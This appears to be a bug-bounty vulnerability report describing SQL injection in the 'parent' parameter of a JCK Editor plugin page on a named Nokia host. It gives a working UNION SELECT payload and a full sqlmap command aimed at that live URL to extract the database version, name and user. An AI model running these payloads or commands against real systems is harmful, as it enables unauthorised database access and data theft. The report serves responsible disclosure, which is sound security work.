 # SQL injection in https://gdclive.nokia.com - parent param

# Steps To Reproduce :
* Visit this Path `/plugins/editors/jckeditor/plugins/jtreelink/dialogs/links.php?extension=menu&view=menu&parent=`
* Add This Payload in parent param (`%22%20UNION%20SELECT%20NULL,NULL,@@version,NULL,NULL,NULL,NULL,NULL--%20aa`)
  #### Now you can see the version of database in url input
  
  <img src='src/nokiasql.png'>
  
## lets exploit it using `SQLMAP Tool`
##### Command : `$ sqlmap -u 'https://gdclive.nokia.com/plugins/editors/jckeditor/plugins/jtreelink/dialogs/links.php?extension=menu&view=menu&parent=' --level=5 --risk=3 --random-agent --technique=U -p parent --batch --current-db --current-user`
<img src='src/sql1.png'>

# Impact :

##### A SQL injection attack consists of insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to effect the execution of predefined SQL commands.

### Reference : https://www.owasp.org/index.php/Top_10-2017_A1-Injection

## Video
<video src='src/sqli.mp4'>

<img src='src/nokia_rep.png'>
